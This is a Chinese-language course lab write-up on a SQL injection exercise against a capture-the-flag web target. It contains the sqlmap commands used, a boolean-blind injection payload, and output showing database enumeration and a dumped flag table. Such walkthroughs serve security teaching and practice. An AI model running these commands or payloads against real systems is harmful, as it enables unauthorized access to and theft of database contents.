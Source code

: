 ```yaml
---
date: 2025-04-07T19:20:00+08:00
modified: 2025-09-20T18:41:19+08:00
tags:
  - PhD/Course/Systems_Security
title: 第(8)周-SQL注入与凭据访问-攻击-SQL 4
---
```


> [!QUESTION]
> 本实验旨在通过实践让学生掌握 SQL 注入攻击技术, 学生需通过访问一个存在 SQL 查询功能的 Web 界面, 分析并测试该界面的安全漏洞, 探索基础的 SQL 万能密码注入及绕过过滤关键字的可能性, 当无法直接通过常规方法获取数据时, 则需运用布尔盲注技术, 编写并执行 Python 脚本, 通过判断 SQL 语句执行成功与否的返回结果, 逐步推断并获取数据库中敏感信息 (如 flag) 的具体内容, 最终完成攻击目标.

## 1. 漏洞分析过程

### 1.1. 注入点定位

- **目标 URL**: <http://d395b0cd-d62e-404e-8649-85891f603d2a.1.2024.thudart.com/index.php>
- **请求方式**: `POST` 方法
- **注入参数**: `search=answer`
- **响应特征**: 使用 `--not-string="再怎么找也找不到啦(✿◡‿◡)"` 参数标识错误响应特征

### 1.2. 漏洞验证

执行基础探测命令:

```sh
sqlmap --url="http://d395b0cd-d62e-404e-8649-85891f603d2a.1.2024.thudart.com/index.php" --method="POST" --data="search=answer" --level="5" --risk="3" --technique="B"
```

确认存在布尔盲注漏洞:

```
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=answer%' AND 6365=6365 AND 'sIqe%'='sIqe
---
```

## 2. 数据提取过程

### 2.1. 数据库枚举

```bash
sqlmap [...] --dbs
```

获取数据库列表:

```
information_schema
user_data
```

### 2.2. 表结构探测

```bash
sqlmap [...] -D "user_data" --tables
```

发现关键数据表:

```
+------+
| fff  |
| info |
+------+
```

### 2.3. 敏感数据提取

```bash
sqlmap [...] -D "user_data" -T "fff" --dump
```

获取最终 flag:

```
+----+--------------------------------------+
| id | flag                                 |
+----+--------------------------------------+
| 0  | 3c449e54-acb1-4f9b-b646-d034375c2e30 |
+----+--------------------------------------+
```
